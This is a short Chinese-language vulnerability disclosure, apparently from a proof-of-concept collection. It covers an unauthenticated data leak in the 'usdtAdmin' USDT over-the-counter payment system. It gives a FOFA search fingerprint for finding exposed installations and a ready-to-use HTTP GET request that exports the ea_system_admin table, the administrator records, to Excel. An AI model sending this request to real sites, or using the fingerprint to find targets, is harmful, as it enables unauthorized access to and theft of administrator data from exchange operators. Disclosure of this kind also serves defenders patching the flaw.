 # usdtAdmin收款管理系统存在excel敏感信息泄露

虚拟币买卖USDT场外交易所由于在鉴权方面存在疏漏，导致了可未授权访问，从而导致信息泄露

## fofa
```
"/usdtmerchant/login/reg.html"
```

## poc
```javascript
GET /index/getway/excel?down=1&table=ea_system_admin&shunxu=desc&number=100 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```
